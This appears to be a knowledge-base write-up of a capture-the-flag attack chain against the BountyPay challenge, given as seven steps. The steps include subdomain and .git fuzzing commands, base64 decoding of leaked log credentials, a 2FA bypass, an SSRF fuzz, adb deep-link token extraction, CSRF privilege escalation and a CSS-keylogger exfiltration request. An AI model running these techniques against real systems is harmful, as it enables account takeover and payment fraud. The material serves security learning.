

---
tags:
  - ssrf
  - 2fa-bypass
  - account-takeover
  - path-traversal
  - open-redirect
  - reverse-engineering
  - csrf
  - dom-injection
  - parameter-pollution
  - css-keylogger
  - git-exposure
  - credential-leak
type: attack_chain
tools:
  - '[[tools/subfinder]]'
  - '[[tools/ffuf]]'
  - '[[tools/SecLists]]'
  - '[[tools/adb]]'
  - '[[tools/Apktool]]'
  - '[[tools/dex2jar]]'
  - '[[tools/jd-gui]]'
  - '[[tools/Burp-Collaborator]]'
tactics:
  - '[[Reconnaissance]]'
  - '[[Initial Access]]'
  - '[[Lateral Movement]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - Android
submitted: true
complexity: high
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Enumerate-Subdomains-and-Expose-Git-Repository]]'
  - '[[procedures/Extract-Credentials-from-Exposed-Logs]]'
  - '[[procedures/Authenticate-and-Bypass-Initial-2FA]]'
  - '[[procedures/Exploit-SSRF-and-Open-Redirect-to-Discover-APK]]'
  - '[[procedures/Reverse-Engineer-Android-APK-for-API-Token]]'
  - >-
    [[procedures/Create-Staff-Account-and-Escalate-Privileges-via-CSRF-Injection]]
  - '[[procedures/Bypass-Final-2FA-with-SSRF-CSS-Keylogger-and-Approve-Payment]]'
step_count: 7
techniques:
  - '[[Active Scanning]]'
  - '[[Valid Accounts]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
  - '[[Unsecured Credentials]]'
updated_at: '2025-12-14T17:33:06.067Z'
description: >-
  Multi-stage attack exploiting exposed Git repository, credential leaks, 2FA
  bypass, SSRF, open redirect, Android APK reverse engineering, broken access
  control, CSRF, DOM injection, parameter pollution, and CSS keylogger to
  achieve full account takeover and payment approval.
skill_level: advanced
impact_level: critical
id: 13917fdd-c9ac-40c8-b56b-7804b16066c5
validated: true
mitre_tactics:
  - '[[Reconnaissance]]'
  - '[[Initial Access]]'
  - '[[Lateral Movement]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Active Scanning]]'
  - '[[Valid Accounts]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
  - '[[Unsecured Credentials]]'
---
# Chained Vulnerabilities from Git Exposure to Complete CEO Account Takeover in BountyPay

## Overview

This attack chain demonstrates a sophisticated multi-vector assault on the BountyPay system, starting with passive reconnaissance to uncover an exposed .git repository on app.bountypay.h1ctf.com. This leads to source code leakage revealing a logging mechanism that exposes base64-encoded credentials in a public log file. Using these credentials, the attacker bypasses 2FA via client-side MD5 manipulation, then exploits path traversal in a cookie combined with open redirect to achieve SSRF, enumerating the software subdomain and downloading an Android APK. Reverse engineering the APK via deep links yields an API token for creating staff accounts. Further escalation chains CSRF, DOM class injection in avatars, and parameter pollution to promote a staff account to admin, ultimately taking over the CEO's (marten.mickos) account. The final 2FA is bypassed using SSRF to load a CSS keylogger, allowing transaction approvals and full compromise of financial operations.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 7 |
| Execution Time | ~120 minutes |
| Skill Level | Advanced |
| Complexity | High |
| Impact Level | Critical |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/subfinder]]
- [[tools/ffuf]]
- [[tools/SecLists]]
- [[tools/adb]]
- [[tools/Apktool]]
- [[tools/dex2jar]]
- [[tools/jd-gui]]
- [[tools/Burp-Collaborator]]

### Target Environment

- Web application on PHP/nginx stack
- Android APK for mobile component
- Services: GitHub repository, API endpoints on api.bountypay.h1ctf.com
- No specific ports required; assumes internet access to h1ctf.com subdomains

### Initial Access Requirements

- No prior credentials needed
- Public internet access to app.bountypay.h1ctf.com
- Android emulator for APK testing

## Detailed Attack Procedures

### Step 1: Enumerate Subdomains and Expose Git Repository
procedure: [[procedures/Enumerate-Subdomains-and-Expose-Git-Repository]]

**Objective**: Identify attack surface by discovering subdomains and fuzzing for exposed sensitive directories like .git to leak source code.

**Instructions**: Begin with subdomain enumeration using [[commands/subfinder-enumerate-subdomains]]:

```bash
subfinder -d bountypay.h1ctf.com -o subdomains.txt
```

Focus on app.bountypay.h1ctf.com and fuzz directories with [[commands/ffuf-directory-fuzz]]:

```bash
ffuf -w ./SecLists/Discovery/Web-Content/common.txt -u "https://app.bountypay.h1ctf.com/FUZZ" -ac
```

Access .git/config directly via browser or curl to retrieve the GitHub repo URL.

**Expected Output**: List of subdomains including app., software., staff., api.; discovery of .git/HEAD and config revealing https://github.com/bounty-pay-code/request-logger.git.

**Success Indicators**:
- Subdomains enumerated
- .git directory exposed and repo URL obtained

### Step 2: Extract Credentials from Exposed Logs
procedure: [[procedures/Extract-Credentials-from-Exposed-Logs]]

**Objective**: Review leaked source code to identify logging endpoints and decode sensitive data from public logs to obtain user credentials.

**Instructions**: Examine logger.php from the GitHub repo to find the log file path. Download the log using [[commands/curl-download-log]]:

```bash
curl https://app.bountypay.h1ctf.com/bp_web_trace.log -o bp_web_trace.log
```

Decode base64 entries with [[commands/awk-decode-base64]]:

```bash
curl -s https://app.bountypay.h1ctf.com/bp_web_trace.log | awk -F ':' '{print $2}' | while read line; do echo "$line" | base64 --decode && echo "\n"; done
```

**Expected Output**: Decoded JSON with credentials like {"username":"brian.oliver","password":"V7h0inzX"}.

**Success Indicators**:
- Log file downloaded
- Credentials extracted

### Step 3: Authenticate and Bypass Initial 2FA
procedure: [[procedures/Authenticate-and-Bypass-Initial-2FA]]

**Objective**: Use extracted credentials to log in and bypass 2FA by manipulating the client-side challenge parameter.

**Instructions**: POST to the login endpoint with username 'brian.oliver' and password 'V7h0inzX'. For 2FA, set challenge_answer='test' and compute challenge=MD5('test')='098f6bcd4621d373cade4e832627b4f6' in the POST request to /.

Use Burp Suite or similar to intercept and modify the request.

**Expected Output**: Valid session cookie for brian.oliver account.

**Success Indicators**:
- Successful login
- 2FA bypassed without server verification

### Step 4: Exploit SSRF and Open Redirect to Discover APK
procedure: [[procedures/Exploit-SSRF-and-Open-Redirect-to-Discover-APK]]

**Objective**: Leverage path traversal in account_id cookie and chain with open redirect to perform SSRF and enumerate internal subdomains for APK access.

**Instructions**: Modify the base64-encoded token cookie's account_id to '../../' for traversal. Prepare payloads with [[commands/generate-encoded-urls]]:

```bash
cat ./SecLists/Discovery/Web-Content/common.txt | while read line; do ./soft-urls.sh "https://software.bountypay.h1ctf.com/${line}?"; done > fuzz-urls-encoded.txt
```

Fuzz with [[commands/ffuf-ssrf-fuzz]]:

```bash
ffuf -w fuzz-urls-encoded.txt -u "https://app.bountypay.h1ctf.com/statements/?month=04&year=2020" -H "Cookie: token=FUZZ" -fw 5
```

Chain to /redirect?url= for open redirect to software.bountypay.h1ctf.com/uploads/.

**Expected Output**: Discovery of BountyPay.apk via directory listing.

**Success Indicators**:
- SSRF confirmed
- APK downloadable from https://software.bountypay.h1ctf.com/uploads/BountyPay.apk

### Step 5: Reverse Engineer Android APK for API Token
procedure: [[procedures/Reverse-Engineer-Android-APK-for-API-Token]]

**Objective**: Install and trigger deep links in the APK to extract hidden API token via log analysis.

**Instructions**: Install APK with [[commands/adb-install-apk]]:

```bash
adb install BountyPay.apk
```

Unpack with Apktool, examine manifest for deep links. Trigger sequentially with [[commands/adb-trigger-deep-link-one]]:

```bash
adb shell am start -W -a android.intent.action.VIEW -d "one://part?start=PartTwoActivity" bounty.pay
```

Follow with [[commands/adb-trigger-deep-link-two]] and [[commands/adb-trigger-deep-link-three]]:

```bash
adb shell am start -W -a android.intent.action.VIEW -d "two://part?two=light\&switch=on" bounty.pay
adb shell am start -W -a android.intent.action.VIEW -d "three://part?switch=b24\&three=UGFydFRocmVlQWN0aXZpdHk%3D\&header=X-Token" bounty.pay
```

Monitor logs with adb logcat to capture token '8e9998ee3137ca9ade8f372739f062c1'.

**Expected Output**: Token and API URL from logs.

**Success Indicators**:
- Deep links triggered
- Token extracted

### Step 6: Create Staff Account and Escalate Privileges via CSRF Injection
procedure: [[procedures/Create-Staff-Account-and-Escalate-Privileges-via-CSRF-Injection]]

**Objective**: Use token to create staff account, then chain CSRF, DOM injection, and parameter pollution for admin escalation, targeting CEO account.

**Instructions**: Fuzz API with [[commands/ffuf-api-fuzz]]:

```bash
ffuf -u "https://api.bountypay.h1ctf.com/api/FUZZ" -H "X-Token: 8e9998ee3137ca9ade8f372739f062c1" -w ./SecLists/Discovery/Web-Content/common.txt
```

POST to /api/staff with staff_id 'STF:KE624RQ2T9' to create 'sandra.allison'. Set profile_avatar to 'avatar2 upgradeToAdmin tab2' for class injection. Use parameter pollution ?template[]=login&template[]=ticket&ticket_id=3582&username=sandra.allison#tab2. Report base64-encoded URL via [[commands/get-admin-report]]:

```bash
GET /admin/report?url=Lz90ZW1wbGF0ZVtdPWxvZ2luJnRlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uI3RhYjI= HTTP/1.1
```

Bypass Marten's 2FA similarly.

**Expected Output**: Admin privileges on sandra.allison, access to CEO account.

**Success Indicators**:
- Staff account created
- Privileges escalated
- CEO session obtained

### Step 7: Bypass Final 2FA with SSRF CSS Keylogger and Approve Payment
procedure: [[procedures/Bypass-Final-2FA-with-SSRF-CSS-Keylogger-and-Approve-Payment]]

**Objective**: Use SSRF in payment endpoint to load CSS keylogger, capture 2FA code, and approve transaction.

**Instructions**: POST to pay endpoint with [[commands/post-payment-ssrf]]:

```bash
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
app_style=https%3A%2F%2Fwww.bountypay.h1ctf.com%2Fcss%2Funi_2fa_style.css
```

Monitor Burp Collaborator for keylogger exfiltration via nth-child background-image requests. Enter captured code to approve.

**Expected Output**: 2FA code leaked, payment approved, flag obtained.

**Success Indicators**:
- SSRF triggers CSS load
- 2FA code captured
- Transaction completed

## Attack Chain Summary

### Key Achievements

1. Full source code and credential exposure via .git leak
2. Bypassed multiple 2FA instances for account escalation
3. Discovered and exploited hidden Android component for API access
4. Chained web vulnerabilities for admin-to-CEO takeover
5. Implemented blind SSRF CSS keylogger for final bypass

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Active Scanning]] Active Scanning
- [[Valid Accounts]] Valid Accounts
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Drive-by Compromise]] Drive-by Compromise
- [[Unsecured Credentials]] Unsecured Credentials

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Initial Access]] Initial Access
- [[Lateral Movement]] Lateral Movement
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
